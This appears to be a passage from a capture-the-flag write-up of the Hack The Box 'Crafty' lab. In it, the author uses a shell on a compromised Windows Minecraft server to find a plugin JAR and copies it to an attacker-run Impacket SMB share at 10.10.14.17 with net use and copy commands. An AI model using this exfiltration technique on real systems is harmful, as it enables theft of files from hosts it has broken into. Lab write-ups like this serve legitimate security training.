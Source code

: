 ```
https://www.virustotal.com/gui/file/58f329c7d2696526f948470aa6fd0b45545039b64cb75015e64c12194b373da6
```
![](images/Pasted%20image%2020250718001908.png)
There is another plugin `playercounter-1.0-SNAPSHOT.jar`
```
PS C:\Users\svc_minecraft\server\plugins> ls
ls


    Directory: C:\Users\svc_minecraft\server\plugins


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/27/2023   2:48 PM           9996 playercounter-1.0-SNAPSHOT.jar   
```
Then let's download it to our local machine by using a `smbserver`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Crafty]
└─$ smbserver.py share . -smb2support -username wither -password wither
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed

PS C:\Users\svc_minecraft\server\plugins> net use \\10.10.14.17\share /u:wither wither
net use \\10.10.14.17\share /u:wither wither
The command completed successfully.

PS C:\Users\svc_minecraft\server\plugins> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.17\share\
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.17\share\
```
Then let's check the hash to make sure the file is not broken
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Crafty]
```